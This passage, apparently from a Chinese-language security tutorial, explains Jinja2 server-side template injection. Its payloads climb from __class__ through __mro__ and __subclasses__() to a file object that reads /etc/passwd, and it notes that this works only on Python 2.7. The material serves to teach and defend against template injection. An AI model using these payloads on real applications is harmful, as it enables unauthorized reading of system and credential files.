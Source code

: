 基本的变量绑定

参考文献：Jinja 官方文档

### **攻击面**

实际上，Python 元数据属性可以从任何 Python 对象中读取。此外，方法调用也不会被过滤。不过，获取诸如命令执行等强大的操作权限可并不简单。

Jinja 漏洞利用的基础知识

我们可以通过元属性__class__来访问类。

```
{{''.__class__}}

<type 'str'>

```

从任何类中，我们都可以获得 Method Resolution Order(MRO) 对象。MRO 对象包含当前类型的类层次结构。

```
{{''.__class__.__mro__}}

<type 'str'>, <type 'basestring'>, <type 'object'>

```

通过之前找到的类型对象，我们可以列出其所有子类。实际上，这相当于枚举了当前上下文中加载的所有类。不过，到底有哪些可用的类，这完全取决于应用程序的导入操作。在 Jinja2 中，导入操作是不容易触发的。

```
{{''.__class__.__mro__[2].__subclasses__()}}

<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>,  <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'> [...]

```

我们可以从上面的列表中挑选任何类型，并调用这些类型的方法。对象子类列表中索引 40 对应的元素是 ({{”.__class__.__mro__[2].__subclasses__()[40])。我们可以使用该类型来读取任意文件。

```
{{''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd","r").read()}}

//The previous extension is analog to

file("/etc/passwd","r").read()

```

上面的 payload 仅适用于 Python 2.7。

参考资料：
